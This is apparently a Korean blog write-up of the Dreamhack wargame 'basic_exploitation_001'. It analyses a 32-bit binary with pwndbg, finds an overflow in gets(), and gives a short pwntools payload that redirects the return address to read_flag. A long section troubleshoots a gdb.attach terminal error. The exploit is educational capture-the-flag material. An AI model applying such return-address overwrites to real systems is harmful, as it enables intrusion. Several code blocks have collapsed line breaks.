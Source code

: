 ```yaml
---
layout: post
title: 'Dreamhack-basic_exploitation_001 문제 풀이'
summary: basic_exploitation_001 문제 풀이
author: TouBVa
date: '2024-12-01 16:00:00 +09'
category: ['system_hacking']
thumbnail: /assets/img/posts/2024-12-01-basic_exploitation_001/Untitled.png
keywords: system, BOF
usemathjax: true
permalink: /blog/dreamhack_system_hacking/2024-12-01-basic_exploitation_001
---
```


* TOC
{:toc}

<br>

소스가 주어진 문제로, 소스를 보고 수행한다면 훨씬 쉽지만 어셈블리 감각을 유지하기 위해 소스를 보지 않고 디버거로 파일을 파악했다.

<br>

## 0. 파일 메타데이터 확인

<br>

![/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled.png](/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled.png){: width="100%" height="100%"}

<br>

NX enabled

단순히 스택에 쉘코드 넣는 걸론 안될듯?

`file`, `readelf -h` 로 일단은 체크함, not stripped / ELF32

<br>

## 1. 파일 동작 확인

<br>

![/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled_1.png](/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled_1.png){: width="100%" height="100%"}

<br>

그냥 실행해서는 아무것도 알 수 없음

<br>

## 2. pwndbg로 확인

<br>

![/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled_2.png](/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled_2.png){: width="100%" height="100%"}

<br>

누가 봐도 `read_flag`에 뭔가 있어 보인다

일단은 `main` 함수부터 분석하자

<br>

### 2.1. main 분석

<br>

![/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled_3.png](/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled_3.png){: width="100%" height="100%"}

<br>

그런데 이거 왜 line3에서 `add esp, 0xffffff80`이라고 한 거지?

부동소수점 표현방식 생각했을 때 `sub esp, 0x80`이라고 하면 편할 텐데

아무튼 `0x80`만큼의 버퍼를 할당하고, 그 시작 주소를 `gets`의 인자로 주는군요

`gets`는 입력값 길이를 설정하지 않은 취약한 함수이므로 그 취약점을 이용해 보자

NX는 설정되어 있으니 쉘코드를 스택에 넣는 걸로는 안될 거고

그럼 내부에서 쓸만한 함수가 있을 경우 RET addr를 그쪽으로 변경하면 되겠다

그리고 그 쓸만한 함수는 아마 `read_flag` 아닐까?

<br>

### 2.2. read_flag 분석

<br>

![/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled_4.png](/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled_4.png){: width="100%" height="100%"}

<br>

오케이! 이쪽으로 RET addr를 리다이렉트 해주면 되겠다

<br>

## 3. 페이로드 작성

<br>

0x80(dump)+0x04(rbp contamination)+0x080485b9

로컬 프로그램에 시도해 보았다.

```python
from pwn import *p = process('./basic_exploitation_001')
p=remote('')
# context.terminal = ["bash"]payload=b'A'*0x80payload+=b'B'*0x4payload+= p32(0x080485b9, endian='little')
# gdb.attach(p, gdbscript='b *(main+20)')# input('1')p.sendline(payload )
p.interactive()
```

<br>

### 3.1. 에러 해결-gdb.attach시 gdb가 붙지 못하는 오류

<br>

하지만 gdb.attach를 수행 시 아래와 같은 에러가 뜬다.

```python
Could not find terminal binary 'vscode'. Set context.terminal to your terminal.
```

보통 이 에러가 뜨면 `context.terminal = ["tmux", "splitw", "-h"]` 를 코드에 추가해 context.terminal을 명시적으로 정의하여 gdb가 돌 수 있는 터미널 응용 프로그램을 지정하라고 한다.

일반적으로 이렇게 하면 해결되고… 하지만 난 해결이 안 됐다. gdb가 붙지 못하고 먼저 죽어버리는 것이었다.

에러 메시지에는 ptrace의 실행 권한을 확인하라고만 나와 있었는데, 난 이미 해당 플래그를 편집해 모든 프로세스가 디버깅을 위해 ptrace를 사용 가능하도록 열어둔 상태였고 터미널의 환경 변수도 정상적으로 적용되어 있었다.

그래서 [에러가 뜬 소스](https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/util/misc.py)를 직접 확인해 봤다.

<br>

```python
def run_in_new_terminal(command, terminal=None, args=None, kill_at_exit=True, preexec_fn=None):
    """run_in_new_terminal(command, terminal=None, args=None, kill_at_exit=True, preexec_fn=None) -> int    Run a command in a new terminal.    When ``terminal`` is not set:        - If ``context.terminal`` is set it will be used.          If it is an iterable then ``context.terminal[1:]`` are default arguments.        - If a ``pwntools-terminal`` command exists in ``$PATH``, it is used        - If tmux is detected (by the presence of the ``$TMUX`` environment          variable), a new pane will be opened.        - If GNU Screen is detected (by the presence of the ``$STY`` environment          variable), a new screen will be opened.        - If ``$TERM_PROGRAM`` is set, that is used.        - If X11 is detected (by the presence of the ``$DISPLAY`` environment          variable), ``x-terminal-emulator`` is used.        - If KDE Konsole is detected (by the presence of the ``$KONSOLE_VERSION``          environment variable), a terminal will be split.        - If WSL (Windows Subsystem for Linux) is detected (by the presence of          a ``wsl.exe`` binary in the ``$PATH`` and ``/proc/sys/kernel/osrelease``          containing ``Microsoft``), a new ``cmd.exe`` window will be opened.    If `kill_at_exit` is :const:`True`, try to close the command/terminal when the    current process exits. This may not work for all terminal types.    Arguments:        command (str): The command to run.        terminal (str): Which terminal to use.        args (list): Arguments to pass to the terminal        kill_at_exit (bool): Whether to close the command/terminal on process exit.        preexec_fn (callable): Callable to invoke before exec().
```

<br>

시스템 터미널 환경에 어떤 커스텀이 적용되어 있으면, 그것을 확인해 해당 커스텀이 추가해 둔 시스템의 환경 변수를 읽어와서 새로운 터미널 프로세스를 fork할 때 exec의 커맨드로 주는 메커니즘인 것 같았다.

따라서 `printenv` 명령어로 현재 사용자 프로파일에 정의된 환경 변수 중, 위의 설명에 언급된 것이 있는지 여부를 확인해 보았다.

1. vscode shell-우선순위에 따라 TERM_PROGRAM 환경변수를 우선 참조한다.
    
    ```bash
    tv@tv-virtual-machine:~/system_hacking/basic_exploitation_001.d$ export | grep -E "PATH|TMUX|STY|TERM_PROGRAM|DISPLAY|KONSOLE_VERSION"declare -x DISPLAY=":0"declare -x GNOME_SETUP_DISPLAY=":1"declare -x PATH="/home/tv/.local/bin:/home/tv/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/snap/bin"declare -x TERM_PROGRAM="vscode"declare -x TERM_PROGRAM_VERSION="1.90.2"declare -x WAYLAND_DISPLAY="wayland-0"
    ```
    
2. system shell(/etc/passwd의 마지막 필드에 정의된 사용자의 기본 쉘)-위의 설명이 나열한 것 중 DISPLAY 환경변수밖에 없어, X11(리눅스 GUI 환경)임을 탐지하고 심링크로 설정된(x-terminal-emulator는 일종의 perl 스크립트와 연결되어 users’ preferred terminal binary로 심링크를 타게 해준다) 유저 기본 터미널을 실행하게 된다.
    
    ```bash
    tv@tv-virtual-machine:~/system_hacking/basic_exploitation_001.d$ printenv | grep -E "PATH|TMUX|STY|TERM_PROGRAM|DISPLAY|KONSOLE_VERSION"WAYLAND_DISPLAY=wayland-0
    GNOME_SETUP_DISPLAY=:1
    DISPLAY=:0
    PATH=/home/tv/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/snap/bin
    ```
    

<br>

그리고 vscode shell에서 vscode 명령어를 실행하면 아무것도 실행되지 않는다. 즉, 최초로 등장했던 아래의 오류는 vscode라는 명령어 바이너리가 없어서였던 것이다!

```python
Could not find terminal binary 'vscode'. Set context.terminal to your terminal.
```

<br>

자… 그럼 이제 어떻게 해야 할까?

저 환경변수 자체를 바꿔버리거나, vscode라는 바이너리를 /usr/bin/에 만들어서 내부 스크립트로 기본 터미널에 심링크를 걸거나(~/.profile 참조), 아니면 숨어 있는 vscode 바이너리를 찾아내서 해당 바이너리의 path를 추가하거나(find 명령어 이용)

그런데 그건 vscode shell을 써야만 할 때의 이야기고

나는 그냥 쉽게 시스템 기본 쉘을 썼다.

<br>

드림핵에서 가상머신 할당했는데 무슨 이유에서인지 접근이 안 돼서….

로컬 파일 익스한 것만 올린다.

![/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled_5.png](/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled_5.png){: width="100%" height="100%"}

